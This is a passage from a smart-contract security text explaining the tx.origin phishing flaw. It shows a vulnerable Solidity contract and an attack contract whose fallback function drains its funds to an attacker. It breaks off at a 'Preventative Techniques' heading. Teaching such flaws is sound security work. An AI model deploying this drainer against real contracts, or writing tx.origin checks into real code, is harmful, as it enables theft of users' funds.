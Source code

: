 ### The Vulnerability

Contracts that authorize users using the `tx.origin` variable are typically vulnerable to phishing attacks that can trick users into performing authenticated actions on the vulnerable contract.  
Consider the simple contract in [Phishable.sol](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#phishable_security).

contract Phishable {  
    address public owner;

    constructor \(address \_owner\) {  
        owner = \_owner;  
    }

    function \(\) public payable {} // collect ether

    function withdrawAll\(address \_recipient\) public {  
        require\(tx.origin == owner\);  
        \_recipient.transfer\(this.balance\);  
    }  
}

Notice that on line 11 the contract authorizes the `withdrawAll()` function using `tx.origin`. This contract allows for an attacker to create an attacking contract of the form:

import "Phishable.sol";

contract AttackContract {

    Phishable phishableContract;  
    address attacker; // The attacker's address to receive funds

    constructor \(Phishable \_phishableContract, address \_attackerAddress\) {  
        phishableContract = \_phishableContract;  
        attacker = \_attackerAddress;  
    }

    function \(\) payable {  
        phishableContract.withdrawAll\(attacker\);  
    }  
}

The attacker might disguise this contract as their own private address and socially engineer the victim \(the owner of the Phishable contract\) to send some form of transaction to the address—perhaps sending this contract some amount of ether. The victim, unless careful, may not notice that there is code at the attacker’s address, or the attacker might pass it off as being a multisignature wallet or some advanced storage wallet \(remember that the source code of public contracts is not available by default\).  
In any case, if the victim sends a transaction with enough gas to the AttackContract address, it will invoke the fallback function, which in turn calls the withdrawAll function of the Phishable contract with the parameter attacker. This will result in the withdrawal of all funds from the Phishable contract to the attacker address. This is because the address that first initialized the call was the victim \(i.e., the owner of the Phishable contract\). Therefore, tx.origin will be equal to owner and the require on line 11 of the Phishable contract will pass.

### Preventative Techniques
